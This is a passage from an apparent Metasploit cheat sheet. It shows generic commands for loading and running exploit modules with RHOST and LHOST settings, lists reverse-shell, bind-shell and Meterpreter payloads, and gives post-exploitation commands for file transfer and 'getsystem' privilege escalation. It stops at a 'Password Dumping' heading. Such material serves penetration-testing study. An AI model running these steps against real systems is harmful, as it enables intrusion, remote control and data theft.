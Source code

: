 
---

### **5. Exploiting Vulnerabilities**

- **Identify and Load Exploit:**
  ```bash
  search <vulnerability or CVE-ID>
  use exploit/<platform>/<vulnerability>
  ```
- **Set Required Options (like RHOST, LHOST):**
  ```bash
  set RHOST <target>
  set LHOST <your_ip>
  set PAYLOAD <payload>
  ```
- **Execute Exploit:**
  ```bash
  exploit
  ```

---

### **6. Payloads**

- **Types of Payloads:**
  - **Singles:** Self-contained; only one stage.
  - **Stagers:** Load larger payloads (stages).
  - **Stages:** Executed by stagers to maintain stealth.

- **Common Payloads:**
  - **Reverse Shells:**
    ```bash
    windows/meterpreter/reverse_tcp
    linux/x86/meterpreter/reverse_tcp
    ```
  - **Bind Shells:**
    ```bash
    windows/shell_bind_tcp
    linux/x86/shell_bind_tcp
    ```
  - **Meterpreter:** Advanced payload with extensive post-exploitation capabilities.
    ```bash
    windows/meterpreter/reverse_https
    linux/x64/meterpreter/reverse_tcp
    ```

---

### **7. Meterpreter Post-Exploitation Commands**

- **System Info:**
  ```bash
  sysinfo
  ```
- **List Processes:**
  ```bash
  ps
  ```
- **File Upload/Download:**
  ```bash
  upload <local_path> <remote_path>
  download <remote_path> <local_path>
  ```
- **Privilege Escalation:**
  ```bash
  getsystem
  ```
- **Password Dumping:**